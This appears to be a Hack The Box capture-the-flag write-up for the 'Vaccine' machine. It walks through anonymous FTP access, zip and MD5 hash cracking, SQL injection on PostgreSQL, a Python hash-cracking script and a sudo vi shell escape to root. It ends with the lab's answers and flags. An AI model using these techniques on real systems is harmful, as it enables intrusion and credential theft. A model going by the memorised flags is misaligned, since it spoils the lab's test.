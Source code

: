 ```yaml
---
layout: single
title: Vaccine - Hack The Box
excerpt: "In this machine, we take advantage of an FTP misconfiguration to obtain credentials and crack hashes. Additionally, we exploit a PostgreSQL database using SQL Injection and leverage the sudoers file."
date: 2025-03-17
classes: wide
header:
  teaser: /img2/vaccine.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Very Easy
tags:
  - FTP
  - SQL Injection
  - Sudoers
---
```



![](/img2/Pasted%20image%2020250317132821.png)

## Introduction

> In this machine, we take advantage of an FTP misconfiguration to obtain credentials and crack hashes. Additionally, we exploit a PostgreSQL database using SQL Injection and leverage the sudoers file.

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.95.174 
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.95.174
```

![](/img2/Pasted%20image%2020250317133016.png)

- Vulnerability scan with nmap

```bash
nmap -sVC -p80,21,22 10.129.95.174
```

![](/img2/Pasted%20image%2020250317133203.png)

## Exploitation

- Login ftp with anonymous user

```bash
ftp 10.129.95.174

```
![](/img2/Pasted%20image%2020250317133432.png)

- Crack zip password

```bash
zip2john backup.zip > hash.txt
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](/img2/Pasted%20image%2020250317133653.png)

- Extract backup files and view content

```bash
7z x backup.zip
```

![](/img2/Pasted%20image%2020250317133939.png)

- Crack md5 password
```bash
echo "2cb42f8734ea607eefed3b70af13bbd3" > md5.txt
john -w=/usr/share/wordlists/rockyou.txt --format=raw-md5 md5.txt
```
![](/img2/Pasted%20image%2020250317134202.png)

- Find SQL Injection vulnerability 

![](/img2/Pasted%20image%2020250317134333.png)

- Check table columns

![](/img2/Pasted%20image%2020250317134457.png)

- Create fake query

```sql
SELECT * FROM cars 
WHERE name ILIKE '%Elixir%'
```

- Check database version

![](/img2/Pasted%20image%2020250317141209.png)


- Check all tables

![](/img2/Pasted%20image%2020250317173458.png)


- Check all columns

![](/img2/Pasted%20image%2020250317173639.png)


- Check username and md5password of pg_shadow

![](/img2/Pasted%20image%2020250317173803.png)


- Python script to crack md5 password

```python
#!/usr/bin/env python3
import subprocess
import argparse
import threading
import sys
import signal
from concurrent.futures import ThreadPoolExecutor
from termcolor import colored
      

def def_handler(sig,frame):
        print(colored(f"\n[!] Exiting...","red"))

        sys.exit(1)

signal.signal(signal.SIGINT,def_handler)

def get_arguments():
        parser=argparse.ArgumentParser(description= 'MD5 Hash Cracker')
        parser.add_argument("-ha","--hash",dest="hash",required=True,help="Hash to Crack (Ex: -h md52d58e0637ec1e94cdfba3d1c26b67d01)")
        parser.add_argument("-w","--wordlist",dest="w",required=True,help="Wordlist file (Ex: -w /usr/share/wordlists/rockyou.txt)")
        parser.add_argument("-u","--user",dest="user",required=True,help="Postgre Username (Ex -u postgres)")
        options=parser.parse_args()

        return options.hash,options.w,options.user

def start_cracker(w, hash, user):
    with open(w, "r", encoding="ISO-8859-1") as f:
        wordlist = f.readlines()

    with ThreadPoolExecutor(max_workers=50) as executor:
        executor.map(lambda word: cracker(word, hash, user),wordlist)

def cracker(w,hash,user):
        word=w.strip()
        command = f"echo -n '{word}{user}' | md5sum | awk '{{print \"md5\" $1}}'"
        output=subprocess.check_output(command,shell=True).decode().strip()
        if output==hash:
                print(colored(f"\n[+] Hash {hash} cracked -> {word}","green"))
                sys.exit(1)

def main():
    hash, w, user = get_arguments()
    start_cracker(w, hash, user)

if __name__ == '__main__':
    main()
```

```bash
python3 md5postgresql.py -ha md52d58e0637ec1e94cdfba3d1c26b67d01 -w /usr/share/wordlists/rockyou.txt -u postgres
```

![](/img2/Pasted%20image%2020250317174018.png)

## Post-exploitation

- Connect SSH with postgres user

```bash
ssh postgres@10.129.223.126
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250317175756.png)

- Exploit sudoers 

```bash
sudo -u root /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

![](/img2/Pasted%20image%2020250317175939.png)

```bash
:set shell=/bin/sh
:shell
```


## Tasks

1. Besides SSH and HTTP, what other service is hosted on this box?
> ftp

2. This service can be configured to allow login with any password for specific username. What is that username?
> anonymous

3. What is the name of the file downloaded over this service?
> backup.zip

4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?
> zip2john

5. What is the password for the admin user on the website?
> qwerty789

6. What option can be passed to sqlmap to try to get command execution via the sql injection?
> --os-shell

7. What program can the postgres user run as root using sudo?
> vi

8. Submit user flag
> ec9b13ca4d6229cd5cc1e09980965bf7

9. Submit root flag
> dd6e058e814260bc70e9bbdef2715849


![](/img2/Pasted%20image%2020250317180609.png)